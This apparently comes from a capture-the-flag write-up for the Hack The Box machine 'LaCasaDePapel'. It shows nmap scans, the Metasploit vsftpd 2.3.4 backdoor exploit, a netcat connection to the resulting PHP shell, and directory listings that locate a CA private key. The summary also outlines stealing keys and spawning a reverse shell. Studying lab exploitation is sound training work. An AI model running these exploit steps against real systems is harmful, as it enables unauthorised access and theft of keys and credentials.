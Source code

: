 <center><h1>LaCasaDePapel</h1></center>
<br>
<center><h3>Summary</h3></center>
<br>
- Use an old FTP exploit to open a backdoor on the box allowing us to get a Psy php shell
- Grab a CA key file off the box and a CA crt from the webpage
- Use the CA key file and CA crt file to generate a .p12 file and log into the webpage
- Use an LFI vulnerability to grab and SSH private key
- Use the private key to SSH in
- Replace the memcached.ini file with our own to spawn a reverse shell
<br><br>
First we start with an Nmap scan.
```
# Nmap 7.70 scan initiated Mon May 27 18:16:51 2019 as: nmap -sV -sC -T4 10.10.10.131
Nmap scan report for 10.10.10.131
Host is up (0.11s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.3.4
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 03:e1:c2:c9:79:1c:a6:6b:51:34:8d:7a:c3:c7:c8:50 (RSA)
|   256 41:e4:95:a3:39:0b:25:f9:da:de:be:6a:dc:59:48:6d (ECDSA)
|_  256 30:0b:c6:66:2b:8f:5e:4f:26:28:75:0e:f5:b1:71:e4 (ED25519)
80/tcp  open  http     Node.js (Express middleware)
|_http-title: La Casa De Papel
443/tcp open  ssl/http Node.js Express framework
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: La Casa De Papel
| ssl-cert: Subject: commonName=lacasadepapel.htb/organizationName=La Casa De Papel
| Not valid before: 2019-01-27T08:35:30
|_Not valid after:  2029-01-24T08:35:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|   http/1.1
|_  http/1.0
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 27 18:17:24 2019 -- 1 IP address (1 host up) scanned in 32.68 seconds
```
<br>
A few ports are open but the one that peaks my interest is FTP. I know for a face that <b>vsftpd 2.3.4</b> is vulnerable. I will use the metasploit module <b>exploit/unix/ftp/vsftpd_234_backdoorv2.3.4 Backdoor Command Execution</b> for this.
```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target address range or CIDR identifier
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
The only thing that we have to set is the RHOSTS. Running the exploit we see that the expoit completed but no sessions was created
```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.131
RHOSTS => 10.10.10.131
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.131:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.131:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```
If we run the exploit a second time we get a different message. It says that the port for the backdoor is open but its not a shell which most likely means its not a bash shell.
```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.131:21 - The port used by the backdoor bind listener is already open
[-] 10.10.10.131:21 - The service on port 6200 does not appear to be a shell
[*] Exploit completed, but no session was created.
```
Running an nmap scan on port 6200 will show that the port is now open
```
# nmap -p 6200 10.10.10.131
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-18 12:30 EDT
Nmap scan report for 10.10.10.131
Host is up (0.096s latency).

PORT     STATE SERVICE
6200/tcp open  lm-x

Nmap done: 1 IP address (1 host up) scanned in 0.79 seconds
```
We can use netcat to connect to the backdoor. Once in we are greeted with a Psy Shell which is basically a php Shell
```
# nc -nv 10.10.10.131 6200
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 10.10.10.131:6200.
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
```
To navigate this shell we will need to use php commands. Listing the <b>/home</b> directory will reveal multiple different users
```
scandir('/home');
=> [
     ".",
     "..",
     "berlin",
     "dali",
     "nairobi",
     "oslo",
     "professor",
   ]
```
If we list the contents of each users home directory, we will see a couple things.
- The user flag is located in <b>/home/berlin</b>
- There is a  <b>ca.key</b> file located at <b>/home/nairobi</b>
```
scandir('/home/berlin');
=> [
     ".",
     "..",
     ".ash_history",
     ".ssh",
     "downloads",
     "node_modules",
     "server.js",
     "user.txt",
   ]
scandir('/home/dali');
=> [
     ".",
     "..",
     ".ash_history",
     ".config",
     ".qmail-default",
     ".ssh",
     "server.js",
   ]
scandir('/home/nairobi');
=> [
     ".",
     "..",
     "ca.key",
     "download.jade",
     "error.jade",
     "index.jade",
     "node_modules",
     "server.js",
     "static",
   ]
dir('/home/oslo');
=> [
     ".",
     "..",
     "Maildir",
     "inbox.jade",
     "index.jade",
     "node_modules",
     "package-lock.json",
     "server.js",
     "static",
   ]
```
